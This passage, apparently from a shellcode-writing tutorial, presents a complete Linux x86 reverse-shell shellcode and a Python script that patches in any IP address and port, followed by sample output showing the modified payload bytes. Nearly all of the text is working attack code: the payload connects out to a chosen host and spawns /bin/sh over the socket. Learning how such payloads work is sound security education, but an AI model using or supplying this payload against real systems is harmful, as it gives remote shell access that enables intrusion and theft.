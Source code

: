 We can now add this shellcode to our python script. This script is pretty simple, it parses the 'shellcode' variable content, look for the '\\x15\\xb3' pattern (which is 5555 in reverse hexadecimal) and replace it by the port value asked by the user. 

It also does the same thing for the IP, it looks for the '\\x7f\\x01\\x01\\x01' pattern (which is 127.1.1.1 in reverse hexadecimal) and replace it by the ip value asked by the user.

Here is the code:
```python
#!/usr/bin/python3

import sys
import socket
import binascii

#Shellcode
shellcode = '\\x89\\xe5\\x31\\xc0\\x31\\xdb\\x31\\xc9\\x31\\xd2\\x50\\x50\\x68\\x7f\\x01\\x01\\x01\\x66\\x68\\x15\\xb3\\x66\\x6a\\x02\\x66\\xb8\\x67\\x01\\xb3\\x02\\xb1\\x01\\xcd\\x80\\x89\\xc6\\x31\\xc0\\x66\\xb8\\x6a\\x01\\x89\\xf3\\x89\\xe1\\x89\\xef\\x29\\xe7\\x89\\xfa\\xcd\\x80\\x31\\xc9\\xb1\\x03\\x31\\xc0\\xb0\\x3f\\x89\\xf3\\xfe\\xc9\\xcd\\x80\\xfe\\xc1\\xe2\\xf2\\x31\\xc0\\x50\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x31\\xc9\\x31\\xd2\\xb0\\x0b\\xcd\\x80'

if len(sys.argv) < 3:
	print('Usage: python3 {name} <IP> <PORT>'.format(name = sys.argv[0]))
	print('Example: python3 {name} 127.1.1.1 5555'.format(name = sys.argv[0]))
	exit(1)

#Modify ip address
ip = sys.argv[1].split('.')
ip_in_hex = '{:02X}{:02X}{:02X}{:02X}'.format(*map(int, ip))
shellcode = shellcode.replace('\\x7f\\x01\\x01\\x01', '\\x{0}\\x{1}\\x{2}\\x{3}'.format(
										ip_in_hex[0:2],
										ip_in_hex[2:4],
										ip_in_hex[4:6],
										ip_in_hex[6:8]
))

#Modify port number
port = hex(socket.htons(int(sys.argv[2])))
shellcode = shellcode.replace('\\x15\\xb3', '\\x{0}\\x{1}'.format(port[4:6], port[2:4]))

print(shellcode)
```

This script will give us the following result:
```console
#python3 modify_reverse_shell.py 127.0.0.7 2222

\x89\xe5\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x50\x68\x7F\x00\x00\x07\x66\x68\x08\xae\x66\x6a\x02\x66\xb8\x67\x01\xb3\x02\xb1\x01\xcd\x80\x89\xc6\x31\xc0\x66\xb8\x6a\x01\x89\xf3\x89\xe1\x89\xef\x29\xe7\x89\xfa\xcd\x80\x31\xc9\xb1\x03\x31\xc0\xb0\x3f\x89\xf3\xfe\xc9\xcd\x80\xfe\xc1\xe2\xf2\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80
```
